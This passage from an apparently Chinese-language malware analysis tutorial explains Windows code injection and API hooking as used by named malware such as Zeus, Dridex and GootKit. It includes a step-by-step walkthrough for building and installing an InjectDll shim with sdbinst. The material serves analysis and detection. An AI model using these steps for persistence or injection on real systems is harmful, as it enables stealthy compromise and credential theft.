4. 将DLL路径名复制到目标进程内存的想法是，以后在目标进程中创建远程线程以及通过远程线程调用LoadLibrary()时，DLL路径将作为参数传递给LoadLibrary()。在创建远程线程之前，恶意软件必须确定LoadLibrary()在kernel32.dll中的地址；为此，它调用GetModuleHandleA()API并传递kernel32.dll作为参数，这将返回Kernel32.dll的基地址。一旦得到kernel32.dll的基地址，它就通过调用GetProcessAddress()来确定LoadLibrary()的地址。
5. 在这一点上，恶意软件已经复制了目标进程内存中的DLL路径名，并确定了LoadLibrary()的地址。现在，恶意软件需要在目标进程（explorer.exe）中创建一个线程，这个线程必须通过传递复制的DLL路径名来执行LoadLibrary()，这样恶意的DLL就会被explorer.exe加载。要做到这一点，恶意软件调用CreateRemoteThread()（或未记录的API NtCreateThreadEx()），这在目标进程中创建一个线程。在下面的截图中，CreateRemoteThread()的第一个参数0x30是explorer.exe进程的句柄，该线程将在其中创建。第4个参数是目标进程内存中线程将开始执行的地址，也就是LoadLibrary()的地址，第5个参数是目标进程内存中包含DLL完整路径的地址。在调用CreateRemoteThread()后，explorer.exe中创建的线程调用LoadLibrary()，它将从磁盘上加载DLL到explorer.exe进程内存空间。作为加载恶意DLL的结果，其DLLMain()函数被自动调用，从而在explorer.exe的上下文中执行恶意代码。



6. 一旦注入完成，恶意软件调用VirtualFree()API释放包含DLL路径的内存，并通过使用CloseHandle()API关闭目标进程（explorer.exe）的句柄。

> 一个恶意进程可以将代码注入到以相同或更低的完整性级别运行的其他进程。例如，一个以中等完整性运行的恶意软件进程可以将代码注入explorer.exe进程（它也以中等完整性级别运行）。为了操纵系统级进程，恶意进程需要通过调用AdjustTokenPrivileges()来启用SE_DEBUG_PRIVILEGE（这需要管理员权限）；这允许它读取、写入或注入代码到另一个进程的内存。

#### 3.2 使用APC的DLL注入（APC注入）

在之前的技术中，在写入DLL路径名后，CreateRemoteThread()被调用，以在目标进程中创建一个线程，而这个线程又调用LoadLibrary()来加载恶意的DLL。APC注入技术类似于远程DLL注入，但恶意软件不是使用CreateRemoteThread()，而是利用异步过程调用（APC）来强迫目标进程的线程加载恶意DLL。

APC是一个在特定线程的上下文中异步执行的函数。每个线程都包含一个APC队列，当目标线程进入可警告状态时，APC将被执行。根据微软的文档（https://msdn.microsoft.com/en-us/library/windows/desktop/ms681951(v=vs.85).aspx），如果一个线程调用了以下函数之一，它就进入了可预警状态。

```
   SleepEx(),
   SignalObjectAndWait()
   MsgWaitForMultipleObjectsEx()
   WaitForMultipleObjectsEx()
   WaitForSingleObjectEx()
```

APC注入技术的工作方式是，恶意软件进程确定目标进程（将注入代码的进程）中的线程，该线程处于可警告状态，或可能进入可警告状态。然后，它通过使用QueueUserAPC()函数将自定义代码放入该线程的APC队列。排列自定义代码的想法是，当线程进入可警告状态时，自定义代码会从APC队列中被选中，并由目标进程的线程执行。

1. 它使用OpenThread()API为目标进程的线程打开一个句柄。在下面的截图中，第3个参数，0xBEC(3052)，是iexplore.exe进程的线程ID（TID）。OpenThread()的返回值是iexplore.exe的线程句柄。



2. 然后，恶意软件进程调用QueueUserAPC()，在Internet Explorer线程的APC队列中编排指定的APC函数。在下面的截图中，QueueUserAPC()的第一个参数是指向恶意软件希望目标线程执行的APC函数的指针。在这种情况下，APC函数是LoadLibrary()，其地址先前已经确定。第二个参数，0x22c，是iexplore.exe目标线程的句柄。第3个参数，0x2270000，是目标进程（iexplore.exe）内存中的地址，包含恶意DLL的完整路径；当线程执行时，这个参数将自动作为参数传递给APC函数（LoadLibrary()）。



下面的截图显示了Internet Explorer进程内存中的地址0x2270000的内容（这是作为第3个参数传递给QueueUserAPC()的；这个地址包含了之前被恶意软件写入的DLL的完整路径。



此时，注入已经完成，当目标进程的线程进入可预警状态时，该线程从APC队列中执行LoadLibrary()，DLL的完整路径被作为参数传递给LoadLibrary()。结果，恶意的DLL被加载到目标进程的地址空间，而目标进程又调用了包含恶意代码的DLLMain()函数。

#### 3.3 使用SetWindowsHookEx()进行DLL注入

在上一章中（参考第1.3.2节，使用SetWindowsHookEx的键盘记录器），我们研究了恶意软件如何使用SetWindowsHookEx() API来安装一个钩子程序来监控键盘事件。SetWindowsHookEx()API也可用于将DLL加载到目标进程地址空间并执行恶意代码。要做到这一点，恶意软件首先将恶意DLL加载到自己的地址空间。然后，它为一个特定的事件（如键盘或鼠标事件）安装一个钩子程序（由恶意DLL导出的函数），并将该事件与目标进程的线程（或当前桌面中的所有线程）联系起来。这个思路是，当一个特定的事件被触发时，为其安装的钩子，目标进程的线程将调用该钩子程序。为了调用DLL中定义的钩子程序，它必须将DLL（包含钩子程序）加载到目标进程的地址空间。

换句话说，攻击者创建了一个包含导出函数的DLL。包含恶意代码的导出函数被设置为特定事件的钩子程序。该钩子程序与目标进程的一个线程相关联，当事件被触发时，攻击者的DLL被加载到目标进程的地址空间，钩子程序被目标进程的线程调用，从而执行恶意代码。恶意软件可以为任何类型的事件设置钩子，只要该事件有可能发生。这里的重点是，DLL被加载到目标进程的地址空间，并执行恶意的行为。

下面描述了恶意软件样本（Trojan Padador）执行的步骤，将其DLL加载到远程进程的地址空间，并执行恶意代码。

1. 恶意软件的可执行程序在磁盘上投放了一个名为tckdll.dll的DLL。该DLL包含一个导入函数，和一个名为TRAINER的导出函数，如下所示。DLL的导入函数并没有做什么，而TRAINER函数包含恶意代码。这意味着，DLL只被加载时（其导入函数被调用），不会执行恶意代码；只有当TRAINER函数被调用时，才会执行恶意行为。



2. 恶意软件使用LoadLibrary()API将DLL（tckdll.dll）加载到自己的地址空间。使用LoadLibrary()API将DLL（tckdll.dll）加载到自己的地址空间，但在这一点上没有恶意代码被执行。LoadLibrary()的返回值是加载模块（tckdll.dll）的句柄。模块（tckdll.dll）的句柄。然后它通过使用GetProcAddress()确定TRAINER函数的地址。



3. 恶意软件使用tckdll.dll的句柄和TRAINER函数的地址为键盘事件注册一个钩子程序。TRAINER函数的地址来为键盘事件注册一个钩子过程。在下面的截图中，第1个参数WH_KEYBOARD（常量值2）指定了将调用钩子程序的事件类型。第2个参数是钩子程序的地址，也就是上一步确定的TRAINER函数的地址。第3个参数是指向tckdll.dll的句柄，它包含钩子程序。第四个参数，0，指定钩子程序必须与当前桌面上的所有线程相关联。恶意软件可以不把钩子程序与所有的桌面线程联系起来，而是通过提供线程ID来锁定一个特定的线程。



在执行了前面的步骤后，当键盘事件在一个应用程序中被触发时，该应用程序将加载恶意的DLL并调用TRAINER函数。例如，当你启动记事本并输入一些字符（触发了键盘事件）时，tckdll.dll将被加载到记事本的地址空间，TRAINER函数将被调用，迫使notepad.exe进程执行恶意代码。

#### 3.4 使用应用程序兼容性的DLL注入

微软Windows应用程序兼容性基础设施/框架（应用垫片shim）是一项功能，允许为旧版本的操作系统（如Windows XP）创建的程序在现代版本的操作系统（如Windows 7或Windows 10）上运行。如Windows XP创建的程序能够在现代版本的操作系统（如Windows 7或Windows 10）上运行。这是通过应用程序兼容性修复（垫片shim）实现的。

垫片是由微软提供给开发者的，这样他们就可以在不重写代码的情况下对其程序进行修复。当垫片被应用于一个程序，并且当垫片后的程序被执行时，垫片引擎将垫片后的程序所做的API调用重定向到垫片代码；这是通过将IAT中的指针替换为垫片代码的地址来实现的。关于应用程序如何使用IAT的细节已在第2.1节Windows API调用流程中涉及。换句话说，它钩住了Windows API，将调用重定向到shim代码，而不是在DLL中直接调用API。作为API重定向的结果，shim代码可以修改传递给API的参数，重定向API，或者修改Windows操作系统的响应。下图应该可以帮助你理解Windows操作系统中正常应用程序和shimed应用程序之间的交互差异。



为了帮助你理解垫片的功能，让我们看一个例子。假设几年前（在Windows 7发布之前），你写了一个应用程序（xyz.exe），在执行一些有用的操作之前检查操作系统版本。假设你的应用程序通过调用kernel32.dll中的GetVersion()API来确定操作系统的版本的API来确定操作系统的版本。简而言之，只有当操作系统的版本是Windows XP时，该应用程序才会做一些有用的事情。现在，如果你把那个应用程序（xyz.exe）放在Windows 7上运行，它将不会做任何有用的事情，因为Windows 7上通过GetVersion()返回的操作系统版本因为GetVersion()返回的操作系统版本与Windows XP不一致。要使该程序在Windows 7上运行，你可以修复代码并重建程序，或者你可以在该程序（xyz.exe）上应用一个名为WinXPVersionLie的垫片。

在应用垫片后，当垫片应用程序（xyz.exe）在Windows 7上执行时，当它试图通过调用GetVersion()来确定操作系统版本时，垫片引擎拦截并返回一个不同的Windows版本（Windows XP而不是而不是Windows 7）。更具体的说，当被垫片的应用程序被执行时，垫片引擎修改了IAT并将GetVersion()API调用重定向到店牌呢代码（而不是kernel32.dll）。换句话说，WinXPVersionLie 垫片是在欺骗应用程序，使其相信自己是在Windows XP上运行，而没有修改应用程序中的代码。

> 关于垫片引擎工作的详细信息，请参阅Alex Ionescu的博文《应用程序兼容性数据库的秘密》 (SDB)，http://www.alex-ionescu.com/?p=39。

微软提供了数以百计的垫片（如WinXPVersionLie），可以应用于一个应用程序以改变其行为。其中一些垫片被攻击者滥用，以实现持久性，注入代码，并以较高的权限执行恶意代码。


##### 3.4.1 创建一个shim垫片

有许多垫片可以被攻击者滥用于恶意的目的。在本节中，我将引导你完成创建一个用于将DLL注入目标进程的垫片的过程；这将帮助你了解攻击者创建一个垫片并滥用这一功能是多么容易。在这个案例中，我们将为 notepad.exe 创建一个 shim（主要是 shimeng.dll 和 apphelp.dll — 这是应用程序兼容性接口），并使其加载一个我们选择的 DLL。为一个应用程序创建一个垫片可以分为四个步骤。

```
选择要进行垫片的应用程序。
为该应用程序创建垫片数据库。
保存数据库（.sdb文件）。
安装数据库。
```

要创建和安装一个垫片，你需要有管理员权限。你可以通过使用微软提供的一个工具来执行前面所有的步骤，这个工具叫做Application Compatibility Toolkit（ACT）。对于Windows 7，它可以从https://www.microsoft.com/en-us/download/details.aspx?id=7352(已经不再支持下载了) 下载，对于Windows 10，它与Windows ADK捆绑在一起；根据版本不同，它可以从https://developer.microsoft.com/en-us/windows/hardware/windows-assessment-deployment-kit（https://docs.microsoft.com/zh-cn/windows-hardware/get-started/adk-install）下载。在64位版本的Windows上，ACT将安装两个版本的兼容性管理员工具（32位和64位）。要对32位程序进行调整，你必须使用32位版本的兼容性管理员工具，要对64位程序进行调整，请使用64位版本。 要想了解关于调整引擎工作的详细信息，请参考Alex Ionescu的博文《应用程序兼容性数据库的秘密》(SDB)，网址是http://www.alex-ionescu.com/?p=39。







为了演示这个概念，我将使用32位版本的Windows 7，选择的目标进程是notepad.exe。我们将创建一个InjectDll垫片来使notepad.exe加载一个名为abcd.dll的DLL。要创建一个垫片，从开始菜单中启动兼容性管理员工具（32位），然后右键点击新数据库|应用程序修复。






在下面的对话框中，输入你要调整的应用程序的细节。程序的名称和供应商名称可以是任何东西，但程序文件的位置应该是正确的。





在你按下 "下一步 "按钮后，你将看到一个 "兼容模式 "对话框；你可以直接按 "下一步 "按钮。在下一个窗口中，你将会看到兼容性修复（Shims）对话框；在这里你可以选择各种Shims。在这种情况下，我们对InjectDll 垫片感兴趣。选择InjectDll垫片复选框，然后点击参数按钮，输入DLL的路径（这是我们希望记事本加载的DLL），如下所示。点击 "确定 "并按下 "下一步 "按钮。需要注意的一点是，InjectDll垫片选项只在32位兼容管理员工具中可用，这意味着你只能将这个shim应用到32位进程中。







接下来，你将看到一个屏幕，指定哪些属性将被程序（notepad）匹配。当notepad.exe运行时，所选的属性将被匹配，在匹配条件得到满足后，将应用垫片。为了使匹配条件不那么严格，我取消了所有的选项，在这里显示。





在你点击 "完成 "后，一个完整的应用程序和应用的修复的摘要将呈现在你面前，如下所示。在这一点上，包含notepad.exe的shim信息的shim数据库被创建。






下一步是保存数据库；要做到这一点，点击 "保存 "按钮，在出现提示时，给你的数据库起个名字并保存文件。在这种情况下，数据库文件被保存为notepad.sdb（你可以自由选择任何文件名）。

数据库文件被保存后，下一步是安装数据库。你可以通过右击保存的垫片，点击安装按钮进行安装，如图所示。 





另一种安装数据库的方法是使用一个内置的命令行工具，sdbinst.exe；可以通过使用以下命令安装数据库。

```
sdbinst.exe notepad.sdb
```






现在，如果你调用notepad.exe，abcd.dll将从c:\test目录加载到notepad的进程地址空间，如图所示。



##### 3.4.2 shim工件

在这一点上，你已经了解了如何使用shim将DLL加载到目标进程的地址空间。在我们研究攻击者如何使用 shim 之前，必须了解当你安装 shim 数据库（通过右键点击数据库并选择安装或使用sdbinst.exe工具）。当你安装数据库时，安装程序为数据库创建一个GUID，并将.sdb文件复制到%SystemRoot%\AppPatch\Custom\<GUID>.sdb（对于32位垫片）或%SystemRoot%\AppPatch\Custom\Custom64\<GUID>.sdb（用于64位垫片）。它还在以下注册表键中创建两个注册表项。

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom\
HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\AppCompatFlags\InstalledSDB\
```

下面的截图显示了创建的注册表项HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\AppCompatFlags\Custom\这个注册表项包含应用垫片的程序名称，以及相关的垫片数据库文件（<GUID>.sdb）。



第二个注册表，HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\AppCompatFlags\InstalledSDB\，包含数据库信息和shim数据库文件的安装路径。



创建这些组件的目的是为了在执行应用程序时，加载器通过查询这些注册表项来确定应用程序是否需要垫片，并调用垫片引擎，该引擎将使用位于AppPatch/目录中的.sdb文件的配置来垫片应用程序。由于安装shim数据库而产生的另一个组件是，在控制面板的已安装程序列表中添加了一个条目。

##### 3.4.3 攻击者如何使用垫片
下面的步骤描述了攻击者可能以何种方式将一个应用程序进行垫片并安装在受害者系统上。

* 攻击者为目标应用程序（如notepad.exe，或受害者经常使用的任何合法第三方应用程序）创建一个应用程序兼容性数据库（shim数据库）。攻击者可以选择一个垫片，如InjectDll，或多个垫片。
* 攻击者保存为目标应用程序创建的shim数据库（.sdb文件）。
* .sdb文件被传递并丢在受害者系统上（主要是通过恶意软件），它被安装，通常使用sdbinst工具。
* 攻击者调用目标应用程序或等待用户执行目标应用程序。
* 攻击者也可能删除安装shim数据库的恶意软件。在这种情况下，你就只剩下.sdb文件了。

> 攻击者只需将.sdb文件放到文件系统的某个位置，并修改最小的注册表项集，就可以安装一个shim数据库。这种技术避免了使用sdbinst工具。shim_persist（https://github.com/hasherezade/persistence_demos/tree/master/shim_persist）是一个POC，由安全研究员Hasherezade（https://github.com/hasherezade/persistence_demos/）编写。
> 研究员Hasherezade (@hasherezade)编写的POC，它使用一个DLL安装垫片，而不使用sdbinst工具将所丢的DLL注入explorer.exe进程。



恶意软件作者出于不同的目的滥用了垫片，如实现持久性、代码注入、禁用安全功能、以高权限执行代码和绕过用户账户控制（UAC）提示。下表概述了一些有趣的垫片和它们的描述。

|Shim名称|描述|
|---|---|
|RedirectEXE|重定向执行|
|InjectDll|将DLL注入到应用程序中|
|DisableNXShowUI|禁用数据执行预防（DEP）|
|CorrectFilePaths|重定向文件系统路径|
|VirtualRegistry|注册表重定向|
|RelaunchElevated|以较高的权限启动应用程序|
|TerminateExe|在启动时终止可执行程序|
|DisableWindowsDefender|禁用应用程序的Windows Defender服务 |
|RunAsAdmin|标记一个应用程序以管理员权限运行|


> 关于在攻击中如何使用垫片的更多信息，请参阅安全研究人员在各种会议上发表的谈话，所有这些都可以在https://sdb.tools/talks.html。

##### 3.4.4 分析Shim数据库

为了对一个应用程序进行垫片，攻击者会安装垫片数据库（.sdb），该数据库驻留在受害者的文件系统的某个地方。假设你已经确定了恶意活动中使用的.sdb文件，你可以通过使用诸如sdb-explorer（https://github.com/evil-e/sdb-explorer）或python-sdb（https://github.com/williballenthin/python-sdb）的工具来调查.sdb文件。

在下面的例子中，python-sdb工具被用来调查我们先前创建的shim数据库（.sdb）文件。在shim数据库上运行python-sdb显示其元素，如图所示。


```
$ python sdb_dump_database.py notepad.sdb <DATABASE>
<TIME type='integer'>0x1d3928964805b25</TIME> <COMPILER_VERSION type='stringref'>2.1.0.3</COMPILER_VERSION> <NAME type='stringref'>notepad</NAME>
<OS_PLATFORM type='integer'>0x1</OS_PLATFORM>
<DATABASE_ID type='guid'>ed41a297-9606-4f22-93f5-
b37a9817a735</DATABASE_ID> <LIBRARY>
   </LIBRARY>
      <EXE>
<NAME type='stringref'>notepad.exe</NAME>
<APP_NAME type='stringref'>notepad</APP_NAME>
<VENDOR type='stringref'>&lt;Unknown&gt;</VENDOR>
<EXE_ID type='hex'>a65e89a9-1862-4886-b882-cb9b888b943c</EXE_ID> <MATCHING_FILE>
          <NAME type='stringref'>*</NAME>
        </MATCHING_FILE>
        <SHIM_REF>
<NAME type='stringref'>InjectDll</NAME>
<COMMAND_LINE type='stringref'>c:\test\abcd.dll</COMMAND_LINE> </SHIM_REF>
      </EXE>
   </DATABASE>
```


> 在其中一次攻击中，RedirectEXE shim被dridex恶意软件用来绕过UAC。它安装了shim数据库，并在提升权限后立即将其删除。欲了解更多细节，请参考博文：
https://blogs.jpcert.or.jp/en/2015/02/a-new-uac-bypass-method-that-dridex-uses.html

```
sdbinst.exe /q /u "C:\Users\user_name\AppData\LocalLow\$$$.sdb"
```

#### 3.5 远程可执行程序/外壳代码注入

在这种技术中，恶意代码被直接注入到目标进程的内存中，而不在磁盘上丢弃组件。恶意代码可以是一个shellcode或一个可执行文件，其导入地址表是为目标进程配置的。注入的恶意代码通过CreateRemoteThread()创建一个远程线程来强制执行，并使该线程的起点指向注入的代码块中的代码/函数。这种方法的优点是，恶意软件进程不必在磁盘上投放恶意DLL；它可以从二进制文件的资源部分提取要注入的代码，或者通过网络获取，直接进行代码注入。

下面的步骤描述了这种技术的执行方式，以一个名为nsasr.exe（W32/Fujack）的恶意软件样本为例，它将可执行文件注入Internet Explorer（iexplorer.exe）进程。

1. 恶意软件进程（nsasr.exe）使用OpenProcess()API打开Internet Explorer进程（iexplore.exe）的一个句柄。

2. 它在目标进程（iexplore.exe）中分配内存的一个特定地址，0x13150000。地址，0x13150000，使用带有PAGE_EXECUTE_READWRITE保护的VirutualAllocEx()，而不是PAGE_READWRITE（与在第3.1节涉及的远程DLL注入技术相比）。PAGE_EXECUTE_READWRITE保护允许恶意软件进程（nsasr.exe）将代码写入目标进程，在写入代码后，这种保护允许目标进程（iexplore.exe）从该内存读取和执行代码。

3. 然后，它使用WriteProcessMemory()将恶意的可执行内容写入上一步分配的内存中。在下面的截图中，第一个参数，0xD4，是iexplore.exe的句柄。第二个参数，0x13150000，是目标进程（iexplore.exe）中的地址。内存中的地址，内容将被写入其中。第3个参数，0x13150000，是恶意软件（nsasr.exe）进程内存中的缓冲区；这个缓冲区包含可执行内容，它将被写入目标进程内存。



4. 恶意可执行内容被写入（地址为0x13150000）iexplore.exe进程内存后，它调用CreateRemoteThread()API来创建一个远程线程，并使线程的起始地址指向注入的可执行文件的入口地址。在下面的截图中，第4个参数，0x13152500，指定了目标进程（iexplore.exe）内存中线程开始执行的地址；这是注入的可执行文件的入口地址。在这一点上，注入已经完成，iexplore.exe进程中的线程开始执行恶意代码。



> 反射性DLL注入是一种类似于远程可执行文件/ShellCode注入的技术。在这种方法中，包含反射式加载器组件的DLL被直接注入，而目标进程则要调用反射式加载器组件，该组件负责解决导入问题，将其重新定位到一个合适的内存位置，并调用DllMain()函数。这种技术的优点是，它不依赖于LoadLibrary()函数来加载DLL。由于LoadLibrary()只能从磁盘上加载库，注入的DLL不需要驻留在磁盘上。关于这项技术的更多信息，请参考Stephen Fewer的Reflective DLL Injection，网址是：https://github.com/stephenfewer/ReflectiveDLLInjection。


#### 3.6 hollow空洞化进程注入（进程空洞化）

进程空洞化，或空洞进程注入，是一种代码注入技术，其中合法进程在内存中的可执行部分，被替换为恶意的可执行文件。这种技术允许攻击者将其恶意软件伪装成合法进程并执行恶意代码。这种技术的好处是，被掏空的进程的路径仍然会指向合法的路径，而且，通过在合法进程的上下文中执行，恶意软件可以绕过防火墙和主机入侵防御系统。例如，如果svchost.exe进程被掏空，其路径仍将指向合法的可执行路径（C:\Windows\system32\svchost.exe），但是，只有在内存中，svchost.exe的可执行部分被替换为恶意代码；这使得攻击者可以不被现场取证工具检测到。

下面的步骤描述了恶意软件样本（Skeeyah）执行的空心程序注入。在下面的描述中，恶意软件进程在执行这些步骤之前，从其资源部分提取要注入的恶意可执行文件。

1. 恶意软件进程在暂停模式下启动一个合法进程。因此，合法进程的可执行部分被加载到内存中，内存中的进程环境块（PEB）结构确定了合法进程的完整路径。PEB的ImageBaseAddress(Peb.ImageBaseAddress)字段包含合法进程可执行文件被加载的地址。在下面的截图中，恶意软件以暂停模式启动合法的svchost.exe进程，在这种情况下，svchost.exe被加载到地址0x01000000。



2. 恶意软件确定了PEB结构的地址，这样它就可以读取PEB.ImageBaseAddress字段来确定进程可执行文件（svchost.exe）的基本地址。为了确定PEB结构的地址，它调用GetThreadContext()。GetThreadContext()检索指定线程的上下文，它需要两个参数：第1个参数是线程的句柄，第2个参数是一个指向结构的指针，名为CONTEXT。在这种情况下，恶意软件将悬浮线程的句柄作为GetThreadContext()的第1个参数，并将指向CONTEXT结构的指针作为第2个参数。在这个API调用后，CONTEXT结构被填充了暂停线程的上下文。该结构包含暂停线程的寄存器状态。然后，恶意软件读取CONTEXT._Ebx字段，它包含指向PEB数据结构的指针。一旦确定了PEB的地址，它就会读取PEB.ImageBaseAddress，以确定进程可执行文件的基础地址（换句话说，0x01000000）。




另一种确定指向PEB的指针的方法是使用NtQueryInformationProcess()函数；详情可在https://msdn.microsoft.com/en-us/library/windows/desktop/ms684280(v=vs.85).aspx（https://learn.microsoft.com/zh-cn/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess?redirectedfrom=MSDN）。
3. 一旦确定了目标进程可执行文件在内存中的地址，它就会使用NtUnMapViewofSection()API来取消合法进程（svchost.exe）的可执行部分的分配。在下面的截图中，第一个参数是svchost.exe进程的句柄（0x34），第二个参数是要取消分配的进程可执行文件的基本地址（0x01000000）。



4. 进程可执行部分被掏空后，它在合法进程（svchost.exe）中分配了一个新的内存段，具有读、写和执行权限。新的内存段可以分配在同一地址（空洞化之前进程可执行部分所在的位置）或不同的区域。在下面的截图中，恶意软件使用VirutalAllocEX()来分配不同区域的内存（在这种情况下，在0x00400000）。




5. 然后，它使用WriteProcessMemory()将恶意的可执行文件及其部分复制到新分配的内存地址0x00400000。



6. 然后，恶意软件用新分配的地址覆盖了合法进程的PEB.ImageBaseAdress。下面的截图显示了恶意软件用新的地址（0x00400000）覆盖了svchost.exe的PEB.ImageBaseAdress；这改变了svchost.exe在PEB中的基础地址，从0x1000000到0x00400000（这个地址现在包含注入的可执行文件）。




7. 然后，恶意软件改变了暂停线程的起始地址，使其指向注入的可执行文件的入口点地址。这是通过设置CONTEXT._Eax值并调用SetThreadContext()。在这一点上，暂停进程的线程指向被注入的代码。然后，它使用ResumeThread()恢复被暂停的线程。在这之后，恢复的线程开始执行注入的代码。



> 恶意软件进程可能只是使用NtMapViewSection()来避免使用VirtualAllocEX()和WriteProcessMemory()将恶意可执行文件内容写入目标进程；这使得恶意软件可以将一段内存（包含恶意可执行文件）从自己的地址空间映射到目标进程的地址空间。除了前面描述的技术外，攻击者已经知道使用伪进程注入技术的不同变化。要了解这一点，请观看作者在黑帽会议上的演讲：https://www.youtube.com/watch?v=9L9I1T5QDg4或阅读相关博文：https://cysinfo.com/detecting-deceptive-hollowing-techniques/。

### 4.钩子技术

到目前为止，我们已经看了不同的代码注入技术来执行恶意代码。攻击者将代码（主要是DLL，但也可以是可执行文件或shellcode）注入合法（目标）进程的另一个原因是为了勾住目标进程的API调用。一旦代码被注入到目标进程中，它就可以完全访问进程内存，并可以修改其组件。改变进程内存组件的能力允许攻击者替换IAT中的条目或修改API函数本身，这种技术被称为钩子。通过钩子API（hook api），攻击者可以控制程序的执行路径，并将其重新引导到他选择的恶意代码中。然后，该恶意函数可以：
* 阻止合法应用程序（如安全产品）对API的调用。
* 监控和拦截传递给API的输入参数。
* 过滤从API返回的输出参数。

在本节中，我们将研究不同类型的钩子（hook）技术。

#### 4.1 IAT钩子（IAT Hook）

如前所述，IAT包含一个应用程序从DLLs导入的函数地址。在这种技术中，当一个DLL被注入到目标（合法）进程中后，被注入的DLL中的代码（Dllmain()函数）会钩住IAT中目标进程的入口。下面给出了用于执行这种钩子的步骤的高级概述：
* 通过解析内存中的可执行镜像，找到IAT的位置。
* 确定要钩住的函数的入口。
* 用恶意函数的地址替换该函数的地址。 

为了帮助你理解，让我们看看一个合法程序通过调用DeleteFileA()API来删除一个文件的例子。DeleteFileA()对象接受一个参数，即要删除的文件的名称。下面的截图显示了合法程序（在上钩之前），正常通过IAT确定DeleteFileA()的地址，然后在kernel32.dll中调用DeleteFileA()。



当程序的IAT被钩住时，IAT中DeleteFileA()的地址被替换为恶意函数的地址，如下所示。现在，当合法程序调用DeleteFileA()时，该调用被重定向到恶意软件模块中的恶意函数。恶意函数然后调用原来的DeleteFileA()函数，以使它看起来一切正常。坐在中间的恶意函数可以阻止合法程序删除文件，或者监视参数（正在被删除的文件），然后采取一些其他动作。



除了通常在调用原始函数之前发生的阻断和监控之外，恶意函数还可以过滤输出参数，这发生在重新调用之后。这样，恶意软件可以钩住显示进程、文件、驱动、网络端口等列表的API，并过滤输出，以躲避使用这些API函数的工具。

对于使用这种技术的攻击者来说，其缺点是，如果程序使用运行时链接（动态链接），或者攻击者希望钩子的功能已经作为表的内容导入，此时它就不起作用。攻击者的另一个缺点是，IAT钩子很容易被发现。在正常情况下，IAT中的条目应该位于其相应模块的地址范围内。例如，DeleteFile()的地址应该在kernel32.dll的地址范围内。为了检测这种挂钩技术，安全产品可以识别IAT中不在其模块地址范围内的条目。在64位Windows上，一项名为PatchGuard的技术可以阻止对包括IAT在内的调用表进行修补。由于这些问题，恶意软件作者使用了一种略微不同的钩子技术，接下来将讨论这个问题。


#### 4.2 内联钩子inline hooking(内联修补)

IAT钩子依赖于交换函数指针，而在内联钩子中，API函数本身被修改（打补丁）以将API重定向到恶意代码。与IAT钩子技术一样，这种技术允许攻击者拦截、监测和阻止特定应用程序的调用，并过滤输出参数。在内联钩子中，目标API函数的前几个字节（指令）通常被一个跳转语句所覆盖，该语句将程序控制重新引导到恶意代码。然后，恶意代码可以拦截输入参数，过滤输出，并将控制权重定向到原始函数。

为了帮助你理解，让我们假设一个攻击者想钩住一个合法应用程序所做的DeleteFileA()函数调用。通常情况下，当合法应用程序的线程遇到对DeleteFileA()的调用时，该线程会从DeleteFileA()函数的起点开始执行，如下面所示。



为了用跳转取代函数的前几条指令，恶意软件需要选择哪些指令来取代。jmp指令至少需要5个字节，所以恶意软件需要选择占用5个字节以上的指令。在上图中，替换前三条指令（使用不同颜色突出显示）是安全的，因为它们正好占用5个字节，而且，这些指令除了设置堆栈框架外，没有什么作用。在DeleteFileA()中要替换的三条指令被复制，然后用某种跳转语句替换，将控制权转移到恶意函数中。恶意函数做它想做的事，然后执行DeleteFileA()的原始三条指令，并跳回位于补丁下面的地址（在跳转指令下面），如下图所示。被替换的指令，连同返回目标函数的跳转语句，被称为蹦床。



这种技术可以通过寻找API函数开始时的意外跳转指令来检测，但要注意的是，恶意软件可以通过在API函数中插入更深的跳转，而不是在函数开始时插入，从而使检测变得困难。而不是使用恶意软件可能会使用call指令，或push和ret指令的组合来重定向控制；这种技术可以绕过安全工具，因为安全工具只寻找jmp指令。
有了对内联钩子的了解，让我们来看看恶意软件（Zeus Bot）使用这种技术的例子。宙斯机器人钩住了各种API函数；其中之一是Internet Explorer（iexplore.exe）的HttpSendRequestA()。通过钩住这个函数，恶意软件可以从POST有效载荷中提取凭证。在挂钩之前，恶意的可执行文件（包含各种功能）被注入到Internet Explorer的地址空间。下面的截图显示了地址0x33D0000，可执行文件被注入其中。



在注入可执行文件后，HttpSendRequestA()被钩住，将程序控制重定向到注入的可执行文件中的一个恶意函数。在我们看这个被钩住的函数之前，让我们看一下合法的HttpSendRequestA()函数的前几个字节（如图所示）。



前三个指令（占用5个字节，在前面的截图中突出显示）被替换为重定向控制。下面的截图显示了挂钩后的HttpSendRequestA()。前三条指令被替换为jmp指令（占用5个字节）；注意跳转指令是如何将控制权重定向到地址为0x33DEC48的恶意代码上的，这属于注入的可执行程序的地址范围。




#### 4.3 使用Shim进行内存修补

在内联挂接中，我们看到了函数中的一系列字节是如何被修补以将控制权重定向到恶意代码的。使用应用程序兼容性垫片可以进行内存内修补（垫片的细节之前已经介绍过）。微软使用内存打补丁的功能来应用补丁来修复其产品中的漏洞。内存打补丁是一个没有记录的功能，在兼容性管理员工具中也没有（前面讲过），但是安全研究人员，通过逆向工程，已经弄清楚了内存打补丁的功能，并且开发了分析它们的工具。Jon Erickson的sdb-explorer（https://github.com/evil-e/sdb-explorer）和William Ballenthin的python-sdb（https://github.com/williballenthin/python-sdb）允许你通过分析shim数据库（.sdb）文件。这些研究人员的以下演讲包含了关于内存补丁的详细信息，以及分析这些补丁的工具。

* 持续使用和滥用微软的补丁: https://www.blackhat.com/docs/asia-14/materials/Erickson/WP-Asia-14-Erickson-Persist-It-Using-And-Abusing-Microsofts-Fix-It-Patches.pdf


* 真正的垫片黑幕: http://files.brucon.org/2015/Tomczak_and_Ballenthin_Shims_for_the_Win.pdf


恶意软件作者使用内存补丁来注入代码和钩住API功能。使用内存打补丁的恶意软件样本之一是GootKit；这个恶意软件使用sdbinst工具安装各种垫片数据库（文件）。下面的截图显示了为多个应用程序安装的垫片，该截图显示了与explorer.exe相关的.sdb文件。



安装的.sdb文件包含将被直接修补到目标进程内存中的shellcode。你可以使用sdb_dump_database.py脚本（python-sdb工具的一部分）来检查.sdb文件，命令如下。

```
$ python sdb_dump_database.py {4c895e03-f7a5-4780-b65b-549b3fef0540}.sdb
```

